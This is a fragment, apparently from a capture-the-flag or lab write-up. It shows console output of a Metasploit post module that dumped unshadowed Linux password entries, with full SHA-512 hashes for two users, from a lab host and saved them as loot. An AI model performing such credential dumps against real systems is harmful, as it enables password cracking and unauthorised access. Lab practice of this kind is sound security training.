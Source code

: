 ```console

[+] murphy:$6$qK0Kt4UO$HuCrlOJGbBJb5Av9SL7rEzbxcz/KZYFkMwUqAE0ZMDpNRmOHhPHeI2JU3m9OBOS7lUKkKMADLxCBcywzIxl7b.:1001:1001::/home/murphy:/bin/sh
[+] claire:$6$Sy0NNIXw$SJ27WltHI89hwM5UxqVGiXidj94QFRm2Ynp9p9kxgVbjrmtMez9EqXoDWtcQd8rf0tjc77hBFbWxjGmQCTbep0:1002:1002::/home/claire:/bin/sh
[+] Unshadowed Password File: /home/siachen/.msf4/loot/20230303190258_default_10.10.240.70_linux.hashes_398504.txt
[*] Post module execution completed
```